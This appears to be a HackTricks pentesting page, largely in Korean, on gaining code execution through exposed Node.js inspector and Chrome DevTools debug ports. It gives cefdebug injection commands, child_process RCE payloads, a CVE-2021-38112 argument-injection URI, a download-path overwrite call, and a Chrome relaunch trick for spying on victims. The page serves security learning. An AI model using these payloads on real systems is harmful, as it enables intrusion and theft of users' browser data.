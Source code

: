 # Node inspector/CEF debug abuse

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs](https://origin.nodejs.org/ru/docs/guides/debugging-getting-started): `--inspect` 스위치로 시작하면, Node.js 프로세스는 디버깅 클라이언트를 위해 대기합니다. **기본적으로**, 호스트와 포트 **`127.0.0.1:9229`**에서 대기합니다. 각 프로세스는 **고유한** **UUID**도 할당받습니다.

인스펙터 클라이언트는 연결하기 위해 호스트 주소, 포트 및 UUID를 알아야 하고 지정해야 합니다. 전체 URL은 `ws://127.0.0.1:9229/0f2c936f-b1cd-4ac9-aab3-f63b0f33d55e`와 비슷하게 보일 것입니다.

{% hint style="warning" %}
**디버거가 Node.js 실행 환경에 완전한 접근 권한을 가지므로**, 이 포트에 연결할 수 있는 악의적인 행위자는 Node.js 프로세스를 대신하여 임의의 코드를 실행할 수 있습니다 (**잠재적인 권한 상승**).
{% endhint %}

인스펙터를 시작하는 방법은 여러 가지가 있습니다:
```bash
node --inspect app.js #Will run the inspector in port 9229
node --inspect=4444 app.js #Will run the inspector in port 4444
node --inspect=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
node --inspect-brk=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
# --inspect-brk is equivalent to --inspect

node --inspect --inspect-port=0 app.js #Will run the inspector in a random port
# Note that using "--inspect-port" without "--inspect" or "--inspect-brk" won't run the inspector
```
When you start an inspected process something like this will appear:  
검사된 프로세스를 시작하면 다음과 같은 내용이 나타납니다:
```
Debugger ending on ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
For help, see: https://nodejs.org/en/docs/inspector
```
Processes based on **CEF** (**Chromium Embedded Framework**)는 **debugger**를 열기 위해 `--remote-debugging-port=9222` 매개변수를 사용해야 합니다 (SSRF 보호는 매우 유사하게 유지됩니다). 그러나, 그들은 **NodeJS** **debug** 세션을 부여하는 대신 [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/)을 사용하여 브라우저와 통신합니다. 이는 브라우저를 제어하기 위한 인터페이스이지만, 직접적인 RCE는 없습니다.

디버그된 브라우저를 시작하면 다음과 같은 것이 나타납니다:
```
DevTools listening on ws://127.0.0.1:9222/devtools/browser/7d7aa9d9-7c61-4114-b4c6-fcf5c35b4369
```
### Browsers, WebSockets and same-origin policy <a href="#browsers-websockets-and-same-origin-policy" id="browsers-websockets-and-same-origin-policy"></a>

웹 브라우저에서 열리는 웹사이트는 브라우저 보안 모델에 따라 WebSocket 및 HTTP 요청을 할 수 있습니다. **고유한 디버거 세션 ID를 얻기 위해** **초기 HTTP 연결**이 필요합니다. **동일 출처 정책**은 웹사이트가 **이 HTTP 연결**을 만들 수 없도록 **방지**합니다. [**DNS 리바인딩 공격**](https://en.wikipedia.org/wiki/DNS\_rebinding)**에 대한 추가 보안을 위해,** Node.js는 연결의 **'Host' 헤더**가 **IP 주소** 또는 **`localhost`** 또는 **`localhost6`**를 정확히 지정하는지 확인합니다.

{% hint style="info" %}
이 **보안 조치는 HTTP 요청을 보내기만 해도** 코드를 실행하기 위해 인스펙터를 악용하는 것을 **방지합니다** (이는 SSRF 취약점을 악용하여 수행할 수 있습니다).
{% endhint %}

### Starting inspector in running processes

실행 중인 nodejs 프로세스에 **신호 SIGUSR1**을 보내면 기본 포트에서 **인스펙터를 시작**하게 할 수 있습니다. 그러나 충분한 권한이 필요하므로, 이는 **프로세스 내부의 정보에 대한 권한 있는 접근을 부여할 수 있지만** 직접적인 권한 상승은 아닙니다.
```bash
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```
{% hint style="info" %}
이것은 컨테이너에서 유용합니다. 왜냐하면 `--inspect`로 **프로세스를 종료하고 새로 시작하는 것**은 **옵션이 아니기** 때문입니다. **컨테이너**는 프로세스와 함께 **종료됩니다**.
{% endhint %}

### 검사기/디버거에 연결

**Chromium 기반 브라우저**에 연결하려면 Chrome 또는 Edge에 대해 각각 `chrome://inspect` 또는 `edge://inspect` URL에 접근할 수 있습니다. 구성 버튼을 클릭하여 **대상 호스트와 포트**가 올바르게 나열되어 있는지 확인해야 합니다. 이미지는 원격 코드 실행(RCE) 예제를 보여줍니다:

![](<../../.gitbook/assets/image (674).png>)

**명령줄**을 사용하여 다음과 같이 디버거/검사기에 연결할 수 있습니다:
```bash
node inspect <ip>:<port>
node inspect 127.0.0.1:9229
# RCE example from debug console
debug> exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```
도구 [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug)는 로컬에서 실행 중인 **검사기**를 **찾고** 그 안에 코드를 **주입**할 수 있게 해줍니다.
```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```
{% hint style="info" %}
**NodeJS RCE 익스플로잇은** [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/)에 연결된 경우 작동하지 않습니다(흥미로운 작업을 찾으려면 API를 확인해야 합니다).
{% endhint %}

## NodeJS 디버거/인스펙터에서의 RCE

{% hint style="info" %}
[**Electron에서 XSS로 RCE를 얻는 방법을 찾고 있다면 이 페이지를 확인하세요.**](../../network-services-pentesting/pentesting-web/electron-desktop-apps/)
{% endhint %}

Node **인스펙터**에 **연결**할 수 있을 때 **RCE**를 얻는 일반적인 방법 중 일부는 다음과 같습니다(이것은 **Chrome DevTools 프로토콜에 연결된 경우 작동하지 않을 것 같습니다**):
```javascript
process.mainModule.require('child_process').exec('calc')
window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")
require('child_process').spawnSync('calc.exe')
Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))
```
## Chrome DevTools Protocol Payloads

API를 여기에서 확인할 수 있습니다: [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)\
이 섹션에서는 사람들이 이 프로토콜을 악용하는 데 사용한 흥미로운 것들을 나열하겠습니다.

### Deep Links를 통한 매개변수 주입

[**CVE-2021-38112**](https://rhinosecuritylabs.com/aws/cve-2021-38112-aws-workspaces-rce/)에서 Rhino 보안팀은 CEF 기반 애플리케이션이 시스템에 **사용자 정의 URI**(workspaces://)를 등록하여 전체 URI를 수신하고, 그 URI에서 부분적으로 구성된 설정으로 **CEF 기반 애플리케이션**을 실행한다는 것을 발견했습니다.

URI 매개변수가 URL 디코딩되어 CEF 기본 애플리케이션을 실행하는 데 사용되었으며, 사용자가 **명령줄**에 플래그 **`--gpu-launcher`**를 **주입**하고 임의의 작업을 실행할 수 있게 되었습니다.

따라서, 다음과 같은 페이로드:
```
workspaces://anything%20--gpu-launcher=%22calc.exe%22@REGISTRATION_CODE
```
calc.exe를 실행합니다.

### 파일 덮어쓰기

**다운로드된 파일이 저장될 폴더**를 변경하고, **악성 코드**로 애플리케이션의 자주 사용되는 **소스 코드**를 **덮어쓰기** 위해 파일을 다운로드합니다.
```javascript
ws = new WebSocket(url); //URL of the chrome devtools service
ws.send(JSON.stringify({
id: 42069,
method: 'Browser.setDownloadBehavior',
params: {
behavior: 'allow',
downloadPath: '/code/'
}
}));
```
### Webdriver RCE 및 유출

이 게시물에 따르면: [https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148](https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148) RCE를 얻고 theriver의 내부 페이지를 유출하는 것이 가능합니다.

### 사후 활용

실제 환경에서 **Chrome/Chromium 기반 브라우저를 사용하는** 사용자 PC를 **타겟팅한 후** Chrome 프로세스를 **디버깅이 활성화된 상태로 실행하고 디버깅 포트를 포트 포워딩**하여 접근할 수 있습니다. 이렇게 하면 **희생자가 Chrome으로 수행하는 모든 작업을 검사하고 민감한 정보를 훔칠 수 있습니다**.

은밀한 방법은 **모든 Chrome 프로세스를 종료**한 다음 다음과 같은 것을 호출하는 것입니다.
```bash
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"
```
## References

* [https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)
* [https://nodejs.org/en/docs/guides/debugging-getting-started/](https://nodejs.org/en/docs/guides/debugging-getting-started/)
* [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)
* [https://larry.science/post/corctf-2021/#saasme-2-solves](https://larry.science/post/corctf-2021/#saasme-2-solves)
* [https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
